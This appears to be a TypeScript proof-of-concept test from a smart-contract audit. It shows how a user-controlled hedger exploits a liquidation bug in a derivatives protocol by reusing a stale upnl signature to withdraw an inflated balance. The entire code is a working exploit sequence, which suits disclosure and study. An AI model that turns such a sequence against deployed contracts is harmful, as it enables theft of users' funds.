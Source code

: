 ```ts
  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
  await this.user.sendQuote(limitQuoteRequestBuilder()
    .quantity(decimal(11000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(1, 0, decimal(2, 16));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(11000)).openPrice(decimal(1)).price(decimal(1)).build());

  await this.user.sendQuote(limitQuoteRequestBuilder()
    .positionType(PositionType.SHORT)
    .quantity(decimal(10000))
    .price(decimal(1))
    .cva(decimal(100)).lf(decimal(50)).mm(decimal(40))
    .build()
  );
  await this.hedger.lockQuote(2, 0, decimal(2, 16));
  await this.hedger.openPosition(2, limitOpenRequestBuilder().filledAmount(decimal(10000)).openPrice(decimal(1)).price(decimal(1)).build());

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);
  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // price goes to 0.9, so partyA is in a loss of -100 and becomes liquidatable
  // user now exploits the bug by liquidating partyA
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePartyA(
    this.user.signer.address,
    await getDummySingleUpnlSig(decimal(-100)),
  );

  await context.liquidationFacet.connect(this.liquidator.signer).setSymbolsPrice(
      this.user.signer.address,
      await getDummyPriceSig([1], [decimal(9, 17)], decimal(-100), decimal(1100)),
    );

  // get partyB upnl signature before partyA position is liquidated (at which time partyB has upnl of +100)
  var previousSig = await getDummySingleUpnlSig(decimal(100));

  // liquidate only quote 1 (temporarily inflating balance of controlled partyB)
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyA(
    this.user.signer.address,
    [1]
  );

  var info = await this.hedger.getBalanceInfo(this.user.getAddress());
  console.log("after liquidation of partyA: partyB allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  // deallocate partyB with previous signature (before partyA's position is liquidated)
  // (current partyB upnl is -1100)
  await context.accountFacet.connect(this.hedger.signer).deallocateForPartyB(decimal(1530), this.user.getAddress(), previousSig);

  var balance = await context.viewFacet.balanceOf(this.hedger.getAddress());
  console.log("PartyB balance to withdraw: " + balance/1e18);
```